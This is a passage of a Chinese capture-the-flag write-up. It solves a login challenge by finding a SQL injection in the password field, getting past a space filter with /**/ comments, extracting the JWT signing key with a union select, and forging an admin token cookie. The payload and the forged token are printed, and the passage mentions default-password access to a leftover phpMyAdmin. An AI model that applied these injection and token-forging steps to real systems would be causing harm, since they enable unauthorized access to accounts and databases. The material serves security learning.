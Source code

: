 ![t3pFdx.png](https://s1.ax1x.com/2020/05/31/t3pFdx.png)



参考链接：

https://www.freebuf.com/articles/web/167721.html

https://www.cnblogs.com/Mrsm1th/p/6835592.html

### 有点像甜饼

![t3pko6.png](https://s1.ax1x.com/2020/05/31/t3pko6.png)

一个登录界面，随便输入一些东西，会发现页面没什么变化，看一下Hint

提示说admin：那就admin进去

![t3pEFK.png](https://s1.ax1x.com/2020/05/31/t3pEFK.png)

返回这样，密码改为2，会发现有一点不同的回显；

看看cookie：

![t3pVJO.png](https://s1.ax1x.com/2020/05/31/t3pVJO.png)

这一看就是JWT，不用想了，找key



登录框能有什么漏洞，测试一下sql注入，发现密码框存在注入点；

fuzz一下，过滤了空格，引号（盲猜数字型输入，因为过滤了引号嘛）

常规的union注入即可，将空格换成/**/即可绕过：

```
username=admin&passwd=1/**/and/**/1=2/**/union/**/select/**/1,2,(select/**/group_concat(hint_key)/**/from/**/hint)#
```

![t3psYT.png](https://s1.ax1x.com/2020/05/31/t3psYT.png)



拿到密钥去 `https://jwt.io/` 进行更改，然后 cookie 伪造一下，拿到 flag：

![t3p0wq.png](https://s1.ax1x.com/2020/05/31/t3p0wq.png)

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4iLCJwZXJtaXNzaW9uIjoidHJ1ZSJ9.Ze4cQbeD2BMP9S5CmidQ6UrszaRBlm7aaR7opHh_nzk
```

![t3pXnA.png](https://s1.ax1x.com/2020/05/31/t3pXnA.png)

另外这题还有一个非预期解，由于出题人的疏忽，题目环境自带的 `phpmyadmin` 并没有处理掉，直接进入 `phpmyadmin` 用初始密码登陆就能直接看数据库了。

![image-20200601010515131](https://gitee.com/ivenwings/md_img/raw/master/img/20200601010515.png)
